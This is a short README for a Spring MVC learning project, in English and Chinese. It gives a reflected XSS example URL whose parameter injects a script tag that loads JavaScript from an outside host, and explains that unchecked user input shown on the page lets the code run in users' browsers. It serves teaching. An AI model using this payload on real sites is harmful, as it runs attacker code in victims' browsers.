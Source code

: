 webService
==========

webService built by spring mvc for learning

xss漏洞实例:
http://localhost:8080/demo/xss/check/user/input?p=<script>e1=document.createElement('script');e1.src='http://hushengdong.com/js/src/a_xs.js';document.body.appendChild(e1);</script>

这个是因为系统没有对用户输入的参数进行检查,而直接在页面上显示了
用户输入,导致恶意用户构造了特殊的html代码,造成了恶意代码在用户浏览器的上下文环境执行.